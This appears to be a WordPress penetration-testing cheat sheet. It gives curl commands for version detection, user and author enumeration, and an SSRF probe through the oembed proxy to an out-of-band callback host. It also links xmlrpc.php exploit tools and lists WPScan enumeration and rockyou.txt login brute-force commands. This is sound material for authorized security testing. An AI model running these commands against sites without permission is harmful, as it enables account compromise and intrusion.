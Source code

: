 # Information Gathering

## Key Files and Directories to Check

- `license.txt`
- `wp-activate.php`
- `wp-content/uploads/`
- `wp-includes/`
- `wp-config.php`

## Identifying WordPress Version

### Checking `license.txt`
The `license.txt` file can sometimes provide version information.

### Using curl to Check the WordPress Version
```bash
curl https://victim.com/ | grep 'content="WordPress'
```

## Enumerating Users
### Checking for Usernames
WordPress exposes usernames through the REST API endpoint:
```bash
curl https://victim.com/wp-json/wp/v2/users
```

### Checking for IP Leaks
Pages endpoint can leak IP addresses:
```bash
curl https://victim.com/wp-json/wp/v2/pages
```

### Check Author IDs
You can enumerate author IDs and usernames using:
```bash
curl -s -I -X GET http://blog.example.com/?author=1
```

## xmlrpc.php

### Checking if xmlrpc.php is Active
The `xmlrpc.php` file can be used for credential brute-force or DoS attacks. 

### Exploiting xmlrpc.php
There are various tools and scripts available to exploit `xmlrpc.php`, such as:
- [WPXploit](https://github.com/relarizky/wpxploit)
- [Nitescu Lucian's Guide](https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/)

## Server-Side Request Forgery (SSRF)

### Checking SSRF via oembed Proxy
The endpoint `/wp-json/oembed/1.0/proxy` can be used for SSRF attacks.

### Testing SSRF
```bash
curl https://wordpress-site.com/wp-json/oembed/1.0/proxy?url=ybdk28vjsa9yirr7og2lukt10s6ju8.burpcollaborator.net
```

# WPScan

WPScan is a WordPress security scanner designed for security professionals and site maintainers to test the security of WordPress websites.

## Installation
You can clone the WPScan repository and install it via gem:
```bash
git clone https://github.com/wpscanteam/wpscan
cd wpscan
sudo gem install bundler && bundle install --without test
```
## Basic Commands

### Enumerate Plugins with Known Vulnerabilities
```bash
wpscan --url example.com -e vp --plugins-detection mixed --api-token YOUR_TOKEN
```
### Enumerate All Plugins in WPScan Database
```bash
wpscan --url example.com -e ap --plugins-detection mixed --api-token YOUR_TOKEN
```
### Default Command with API Token
```bash
wpscan --url example.com --ignore-main-redirect --detection-mode aggressive --plugins-detection mixed --api-token YOUR_TOKEN
```
### Bruteforce logins
```bash
wpscan --rua --url example.com -P rockyou.txt
```